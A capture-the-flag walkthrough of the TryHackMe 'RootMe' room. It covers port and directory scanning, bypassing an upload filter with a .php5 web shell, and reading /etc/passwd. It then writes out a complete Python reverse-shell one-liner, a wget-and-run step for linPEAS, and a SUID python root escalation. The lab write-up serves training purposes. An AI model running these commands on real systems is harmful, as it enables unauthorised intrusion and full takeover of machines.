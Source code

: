 ## RootMe CTF - [Room](https://tryhackme.com/room/rrootme)

First lets grab the ip:
  - 10.10.220.202

### $ Recon
After we get the ip, lets run a portscan, i will use nmap:

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9irIQxn1jiKNjwLFTFBitstKOcP7gYt7HQsk6kyRQJjlkhHYuIaLTtt1adsWWUhAlMGl+97TsNK93DijTFrjzz4iv1Zwpt2hhSPQG0GibavCBf5GVPb6TitSskqpgGmFAcvyEFv6fLBS7jUzbG50PDgXHPNIn2WUoa2tLPSr23Di3QO9miVT3+TqdvMiphYaz0RUAD/QMLdXipATI5DydoXhtymG7Nb11sVmgZ00DPK+XJ7WB++ndNdzLW9525v4wzkr1vsfUo9rTMo6D6ZeUF8MngQQx5u4pA230IIXMXoRMaWoUgCB6GENFUhzNrUfryL02/EMt5pgfj8G7ojx5
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBERAcu0+Tsp5KwMXdhMWEbPcF5JrZzhDTVERXqFstm7WA/5+6JiNmLNSPrqTuMb2ZpJvtL9MPhhCEDu6KZ7q6rI=
|   256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC4fnU3h1O9PseKBbB/6m5x8Bo3cwSPmnfmcWQAVN93J
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Ok, we now that are running 2 ports, SSH and Http apache 2.2.29 Server

Ok. Now lets use gobuster

`gobuster -w /path/to/wordlist -u 10.10.220.202 `

```
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.220.202/
[+] Threads      : 10
[+] Wordlist     : /path/to/wordlist/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2023/02/01 17:48:10 Starting gobuster
=====================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/js (Status: 301)
/xxxxxx (Status: 301)
/server-status (Status: 403)
/xxxxxxx (Status: 301)
=====================================================
2023/02/01 17:50:41 Finished
=====================================================
```

We will find this two important directories (I censured for you folks do it by yourselfs)

so, lets enter on the first directory that we found.
As we can see its a upload panel. Lets try upload our PHP script


### $ SHELL TIME


**FOR THE PEOPLE WHO NEEDS:**

![Screenshot1](https://github.com/SnowyYT07/TryhackmeCTFs/blob/main/RootMe/scr1.png)

So lets upload our shell.
And as we can see, the upload panel blocks php files. so what we do?

(SIMPLE WAY) We simply change the file extension to .php5 (or other php ext.) and upload:

![Screenshot2](https://github.com/SnowyYT07/TryhackmeCTFs/blob/main/RootMe/scr2.png)

Next we go to http://10.10.220.202/xxxxxx/filename.php5

After that we can type any command that we what, lets try `cat /etc/passwd` as test
And the output gives:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
rootme:x:1000:1000:RootMe:/home/rootme:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
test:x:1001:1001:,,,:/home/test:/bin/bash
```

So, Nice. Lets execute a reverse shell in that i will use: `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("thmip",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`

I setup a lister with nc: `nc -lvnp 9001`

and started both.
Now we have a shell as you can see

Searching on files we will found user.txt

### # PRIVESC

Now, lets search for privilege escalation. I will use the script LinPEAS to search for.

I use python3 -m http.server 8000 in my host machine
and in the reverse shell that we get i did (YOU NEED TO DOWNLOAD LINPEAS SCRIPT)

`cd /tmp && wget http://yourthmip:8000/linPEAS.sh && chmod +x linPEAS.sh && ./linPEAS.sh`

After linPEAS stop, we see what we can get anddd....

```
-rwsr-sr-x 1 root root 3.5M Aug  4  2020 /usr/bin/python
```
Python have SUID perms, so lets use that as privesc:

`/usr/bin/python -c 'import os; os.execl("/bin/bash", "bash", "-p")'`

Running that, we get a EUID and a EGID bash (EUID and EGID is Effective user id, and effective group id)

so now, as "root" we just do:
`cat /root/root.txt`

and we get the root flag.

Easy ctf, i hope i helped you guys.
